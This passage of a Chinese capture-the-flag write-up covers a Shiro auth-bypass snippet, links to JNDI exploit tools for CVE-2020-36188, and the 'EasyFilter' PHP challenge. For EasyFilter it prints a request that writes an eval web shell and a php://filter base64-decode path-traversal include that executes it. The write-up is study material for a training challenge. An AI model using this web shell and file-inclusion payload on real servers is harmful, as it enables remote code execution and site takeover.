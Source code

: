 #### *临时修复

（本地暂时还未复现

```
map.put("/admin/**", "authc");
@GetMapping({"/admin/page"})
    public String admin() {
        return "admin page";
    }
```

### ***CVE-2020-36188

`ch.qos.logback.core.db.JNDIConnectionSource`

可以参考 https://www.moonback.xyz/2020/01/16/buuctf%E5%88%B7%E9%A2%98-Java%E7%AF%87/#NPUCTF2020-EzShiro，工具 [LdapBypassJndi](https://github.com/Firebasky/LdapBypassJndi)  |  [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

————由于我的java水平实在够呛，这里暂时先空着，等我学一学java 之后必定回来鞭尸

## EasyFilter

```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
```

```
/?action=w&c=<?php @eval($_POST['wuhu']);?>
```

```
/?action=r&r=php://filter/read=convert.base64-decode/resource=/../../../../../files/f8b3731ac9
POST: wuhu=phpinfo();
```

![image-20211023214748589](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211023214748589.png)
